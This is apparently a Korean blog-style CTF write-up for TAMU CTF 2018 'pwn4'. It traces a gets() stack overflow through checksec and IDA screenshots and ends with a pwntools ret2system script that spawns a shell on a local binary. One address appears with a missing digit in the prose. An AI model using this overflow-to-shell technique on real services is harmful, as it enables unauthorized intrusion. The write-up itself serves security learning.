 ## [TAMU CTF 2018] pwn4 풀이

- checksec을 통해 보호기법 확인하기

![image](https://user-images.githubusercontent.com/59410565/117286314-ff3ca980-aea3-11eb-8276-07332312b427.png)

32bit 파일이고, NX가 걸려있다. 따라서 RET 변조를 통해 문제를 해결할 수 있을 것 같다.



- IDA를 사용하여 pwn4 살펴보기

// main() 함수

![image](https://user-images.githubusercontent.com/59410565/117286910-b89b7f00-aea4-11eb-8479-832dae86a2e3.png)



// reduced_shell() 함수

![image](https://user-images.githubusercontent.com/59410565/117286980-cc46e580-aea4-11eb-87c8-d6eda7007bcd.png)

-> s 입력을 gets로 받기 때문에 길이 제한 없이 입력할 수 있다. 따라서 stack overflow가 발생하게 된다.

-> ebp-1Ch를 했으므로, s의 크기는 0x1C(28) byte이다. 즉, s + SFP(4) + RET(4)인 stack 구조를 가진다.

// ls() 함수

![image](https://user-images.githubusercontent.com/59410565/117287272-234cba80-aea5-11eb-96e6-c5d55c9847a5.png)

// cal() 함수

![image](https://user-images.githubusercontent.com/59410565/117287364-395a7b00-aea5-11eb-9987-19c87da3af38.png)

// pwn() 함수

![image](https://user-images.githubusercontent.com/59410565/117287412-46776a00-aea5-11eb-9a00-b5705d252971.png)

// whoami() 함수

![image](https://user-images.githubusercontent.com/59410565/117287500-6018b180-aea5-11eb-85eb-bd3766a8a406.png)



- system, "/bin/sh" 주소 구하기

![image](https://user-images.githubusercontent.com/59410565/117291254-b7b91c00-aea9-11eb-9eab-37564a2c9311.png)

IDA로 '/bin/sh' 주소는 쉽게 알 수 있었다. (**0x084a038**)

![image](https://user-images.githubusercontent.com/59410565/117446939-cb32b880-af77-11eb-9757-cd8b18a9fe37.png)

system의 주소 또한 IDA를 통해 알 수 있었다. (**0x08048430**)



- Payload

```python
from pwn import *

p = process('./pwn4')

system = 0x08048430
binsh = 0x0804a038

payload = 'A'*32 
payload += p32(system)
payload += 'BBBB'
payload += p32(binsh)

p.sendafter("> ", payload)
p.interactive()
```



- Exploit

![image](https://user-images.githubusercontent.com/59410565/117450673-83faf680-af7c-11eb-8709-1d35fe46ea5b.png)